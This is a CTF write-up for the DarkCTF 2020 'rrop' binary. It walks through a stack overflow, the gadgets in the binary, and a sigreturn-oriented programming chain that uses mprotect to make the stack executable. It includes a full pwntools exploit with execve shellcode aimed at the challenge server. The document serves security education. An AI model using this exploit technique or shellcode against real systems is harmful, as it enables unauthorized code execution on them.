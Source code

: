 # CHALLENGE DESCRIPTION  
You came this far using Solar Designer technique and advance technique, now
you are into the gr4n173 world where you can't win just with fake
rope/structure but here you should fake the signal which is turing complete.

IDA decompiled *MAIN* function:  
```c  
int __cdecl main(int argc, const char **argv, const char **envp)  
{  
 char buf; // [rsp+0h] [rbp-D0h]

 nvm_init(*(_QWORD *)&argc, argv, envp);  
 nvm_timeout();  
 printf(  
   "Hello pwners, it's gr4n173 wired machine.\n"  
   "Can you change the behaviour of a process, if so then take my Buffer  @%p,
from some part of my process.\n",  
   &buf;;  
 read(0, &buf, 0x1388uLL);  
 return 0;  
}  
```

there is an overflow as the input can exceed the buffer size.

There are also 2 other interesting function.  
  
Function *eax_rax*:  
```c  
.text:00000000004007D8 ; =============== S U B R O U T I N E
=======================================  
.text:00000000004007D8  
.text:00000000004007D8 ; Attributes: bp-based frame  
.text:00000000004007D8  
.text:00000000004007D8                 public eax_rax  
.text:00000000004007D8 eax_rax         proc near  
.text:00000000004007D8 ; __unwind {  
.text:00000000004007D8                 push    rbp  
.text:00000000004007D9                 mov     rbp, rsp  
.text:00000000004007DC                 mov     eax, 0Fh  
.text:00000000004007E1                 retn  
.text:00000000004007E1 eax_rax         endp ; sp-analysis failed  
```

Which is basically a gadget to set rax to 15 (0xF).  
  
Function *useful_function*:  
```c  
.text:00000000004007CE ; =============== S U B R O U T I N E
=======================================  
.text:00000000004007CE  
.text:00000000004007CE ; Attributes: bp-based frame  
.text:00000000004007CE  
.text:00000000004007CE                 public useful_function  
.text:00000000004007CE useful_function proc near  
.text:00000000004007CE ; __unwind {  
.text:00000000004007CE                 push    rbp  
.text:00000000004007CF                 mov     rbp, rsp  
.text:00000000004007D2                 syscall                 ; LINUX -  
.text:00000000004007D4                 retn  
```  
Which is basically a syscall gadget.  
  

So at this point we have all the ingredients:  
- Description talk about signal --> Sigreturn-oriented programming (aka SROP)  
- Buffer overflow  
- Buffer start address --> one stack address to use mprotect and also the address of the buffer in which we will place shellcode  
- gadget to set rax to 15 which is SIGRETURN SYSCALL NUMBER  
- gadget to execute a SYSCALL  
  
  

So the idea is:  
- trigger the overflow injecting a shellcode to open a shell, and a signal frame to SROP  
- read the buffer leaked  
- execute a SROP invoking the mprotect passing the buffer address ALIGNED to pages (12 least bit must be set to 0), permission rwx (number 7), return addresss = buffer. infact from man page of mprotect:  
      ERROR: ...  EINVAL The addr argument is not a multiple of the page size as returned by sysconf().  
- Mprotect will set the permission of the stack as RWX  
- After the execution Mprotect will jump to the return address (which we use buffer address since our shellcode is placed there)  
- the shellcode will be executed opening a shell  
  
  
  
### EXPLOIT  
```python  
from pwn import *

context.clear(arch="amd64")  
c = remote('rrop.darkarmy.xyz', 7001)  
#c = process("./rrop")  
pad = 216

# ENTRIES  
syscall_ret = 0x00000000004007D2  
mov_rax_15_ret = 0x00000000004007DC

# LEAK  
c.recvuntil("@0x")  
leak = int(c.recvuntil(",")[:-1], 16)  
print ("Buff @ " + hex(leak))

#pause() # STOP TO ATTACH GDB  
shellcode =
b'\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'
# x86_64 EXECVE SHELLCODE

# EXPLOIT  
payload = shellcode # PLACING SHELLCODE IN BEGINNING OF BUFF  
payload = payload.ljust(pad, b'A') # FILLING STACK TO SAVED RIP  
payload += p64(mov_rax_15_ret) # SET RAX TO SIGRETURN SYSCALL NUMBER  
payload += p64(syscall_ret) # CALL SIGRETURN  
# BUILD FAKE FRAME  
frame = SigreturnFrame(kernel="amd64") # CREATING A SIGRETURN FRAME  
#frame = SigreturnFrame()  
frame.rax = 10 # SET RAX TO MPROTECT SYSCALL NUMBER  
frame.rdi = leak&~(0xfff) # SET RDI TO BUFF ADDRESS  
frame.rsi = 2000 # SET RSI TO SIZE  
frame.rdx = 7 # SET RDX => RWX PERMISSION  
frame.rsp = leak + len(payload) + 248 # WHERE 248 IS SIZE OF FAKE FRAME, CAUSE
WE STILL NEED TO CONTROL RIP AFTER!  
frame.rip = syscall_ret # SET RIP TO SYSCALL ADDRESS  
# PLACE FAKE FRAME IN STACK  
payload += bytes(frame)  
payload += p64(leak) # RETURN2SHELLCODE

# SENDING  
c.sendline(payload)

c.interactive()  
```

# FLAG  
`darkCTF{f1n4lly_y0u_f4k3_s1gn4l_fr4m3_4nd_w0n_gr4n173_w1r3d_m4ch1n3}`

Original writeup
(https://github.com/Internaut401/CTF_Writeup/blob/master/2020/DarkCTF/rrop.md).